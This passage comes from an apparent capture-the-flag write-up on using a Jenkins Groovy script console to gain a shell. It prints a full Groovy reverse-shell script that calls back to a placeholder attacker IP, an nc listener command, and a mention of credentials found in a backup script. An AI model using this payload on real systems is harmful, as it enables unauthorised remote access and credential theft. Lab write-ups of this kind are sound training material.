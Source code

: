 ![Advent of Cyber 2023 Day 12 - Groovy Console](tryhackme/images/aoc2023d12_groovy_console.png)

This console utilises [Apache Groovy](https://www.groovy-lang.org/), a powerful language commonly utilised in developer / devops environments for enhancing productivity. We can therefore craft a [reverse shell](https://gist.githubusercontent.com/frohoff/fed1ffaab9b9beeb1c76/raw/7cfa97c7dc65e2275abfb378101a505bfb754a95/revsh.groovy) and gain access to the host:

```groovy
String host="<ATTACKER_IP>";
int port=<PORT>;
String cmd="/bin/bash";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

```console
# Attacker machine
$ nc -nvlp <PORT>
```

![Advent of Cyber 2023 Day 12 - Netcat Callback](tryhackme/images/aoc2023d12_nc_callback.png)

From executing the above, we get a callback on our `nc` listener as the `jenkins` user.

Exploring the system, we find a `backup.sh` file within `/opt/scripts` which contains credentials to the `tracy` user:
